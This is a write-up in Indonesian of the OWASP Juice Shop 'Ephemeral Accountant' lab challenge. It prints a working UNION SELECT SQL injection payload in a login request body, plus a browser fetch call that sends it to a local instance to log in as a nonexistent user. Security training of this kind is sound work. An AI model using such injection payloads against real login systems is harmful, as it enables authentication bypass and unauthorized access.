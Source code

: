
## Penyelesaian Tantangan: Ephemeral Accountant

### Deskripsi Tantangan
Tantangan ini menuntut saya untuk masuk sebagai pengguna yang tidak ada (`acc0unt4nt@juice-sh.op`) tanpa mendaftarkannya terlebih dahulu. Pengguna ini harus "diciptakan" secara sementara hanya selama proses login.

### Strategi dan Eksekusi Serangan

#### Analisis Fungsionalitas
Saya mengidentifikasi endpoint `POST /rest/user/login` sebagai target. Tujuan saya adalah menyuntikkan SQL melalui body JSON dari permintaan ini.

#### Menyusun Payload SQL Injection
Karena akun tidak ada, saya menggunakan strategi `UNION SELECT` SQL Injection untuk membuat baris data pengguna palsu secara temporer. Payload ini dirancang untuk meniru struktur data pengguna yang sah, lengkap dengan email, password, dan role yang diperlukan.

Berikut adalah payload yang digunakan:

```json
{
  "email": "' UNION SELECT * FROM (SELECT 20 AS `id`, 'acc0unt4nt@juice-sh.op' AS `username`, 'acc0unt4nt@juice-sh.op' AS `email`, 'test1234' AS `password`, 'accounting' AS `role`, '123' AS `deluxeToken`, '1.2.3.4' AS `lastLoginIp`, '/assets/public/images/uploads/default.svg' AS `profileImage`, '' AS `totpSecret`, 1 AS `isActive`, 12983283 AS `createdAt`, 133424 AS `updatedAt`, NULL AS `deletedAt`) AS tmp WHERE '1'='1';--",
  "password": "test1234"
}
```

#### Eksekusi Serangan dengan Konsol Peramban
saya menggunakan fungsi `fetch` di console. Metode ini efektif karena dapat menangani objek JSON dengan sempurna.

Kode yang berhasil:

```javascript
fetch('http://127.0.0.1:3000/rest/user/login', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/json'
    },
    body: JSON.stringify({
        "email": "' UNION SELECT * FROM (SELECT 20 AS `id`, 'acc0unt4nt@juice-sh.op' AS `username`, 'acc0unt4nt@juice-sh.op' AS `email`, 'test1234' AS `password`, 'accounting' AS `role`, '123' AS `deluxeToken`, '1.2.3.4' AS `lastLoginIp`, '/assets/public/images/uploads/default.svg' AS `profileImage`, '' AS `totpSecret`, 1 AS `isActive`, 12983283 AS `createdAt`, 133424 AS `updatedAt`, NULL AS `deletedAt`) AS tmp WHERE '1'='1';--",
        "password": "test1234"
    })
});
```

### Analisis Hasil
Serangan SQL Injection ini berhasil menciptakan data pengguna sementara selama proses login berlangsung. Aplikasi mengolah data ini seolah-olah berasal dari database yang valid, dan memberikan token JWT yang menandakan keberhasilan login. Hal ini menunjukkan kerentanan serius dalam mekanisme otentikasi.

### Bukti 
<img width="1861" height="958" alt="Screenshot 2025-09-09 225759" src="https://github.com/user-attachments/assets/d3dee9ea-7b12-4940-a7d1-2b78430f6509" />

